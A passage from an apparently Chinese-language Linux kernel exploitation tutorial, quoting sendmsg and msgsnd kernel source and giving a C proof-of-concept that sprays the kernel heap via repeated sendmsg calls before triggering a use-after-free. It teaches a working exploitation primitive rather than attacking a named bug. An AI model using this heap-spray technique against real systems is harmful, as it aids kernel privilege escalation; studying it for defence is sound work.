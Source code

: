 ```
         */
        if (copy_from_user(ctl_buf, (void __user __force *)msg_sys-&gt;msg_control, ctl_len))
            goto out_freectl;
        msg_sys-&gt;msg_control = ctl_buf;
    `}`
    msg_sys-&gt;msg_flags = flags;

    ......

`}`
```

那么，也就是说，只要我们的用户数据大于`44`字节，我们就能够申请下来一个我们指定大小的Chunk，并向其填充数据，完成了堆喷的要件。

#### <a class="reference-link" name="POC"></a>POC

```
// 此处要求 BUFF_SIZE &gt; 44
char buff[BUFF_SIZE];
struct msghdr msg = `{`0`}`;
struct sockaddr_in addr = `{`0`}`;

int sockfd = socket(AF_INET, SOCK_DGRAM, 0);
addr.sin_addr.s_addr = htonl(INADDR_LOOPBACK);
addr.sin_family = AF_INET;
addr.sin_port = htons(6666);

// 布置用户空间buff的内容
msg.msg_control = buff; // 此处的buff即为我们意图布置的数据
msg.msg_controllen = BUFF_SIZE; 
msg.msg_name = (caddr_t)&amp;addr;
msg.msg_namelen = sizeof(addr);

// 假设此时已经产生释放对象，但指针未清空
for(int i = 0; i &lt; 100000; i++) `{`
  sendmsg(sockfd, &amp;msg, 0);
`}`
// 触发UAF即可
```

### <a class="reference-link" name="%E5%B8%B8%E7%94%A8%E7%9A%84%E6%BC%8F%E6%B4%9E%E5%87%BD%E6%95%B0%20%E2%80%94%E2%80%94%20msgsnd"></a>常用的漏洞函数 —— msgsnd

#### <a class="reference-link" name="%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90"></a>源码分析

`msgsnd`函数在`/v4.6-rc1/source/ipc/msg.c#L722`中定义

```
// In /v4.6-rc1/source/ipc/msg.c#L722
SYSCALL_DEFINE4(msgsnd, int, msqid, struct msgbuf __user *, msgp, size_t, msgsz, int, msgflg)
`{`
    long mtype;

    if (get_user(mtype, &amp;msgp-&gt;mtype))
        return -EFAULT;
    return do_msgsnd(msqid, mtype, msgp-&gt;mtext, msgsz, msgflg);
`}`

// In /v4.6-rc1/source/ipc/msg.c#L609

long do_msgsnd(int msqid, long mtype, void __user *mtext, size_t msgsz, int msgflg)
`{`
    struct msg_queue *msq;
```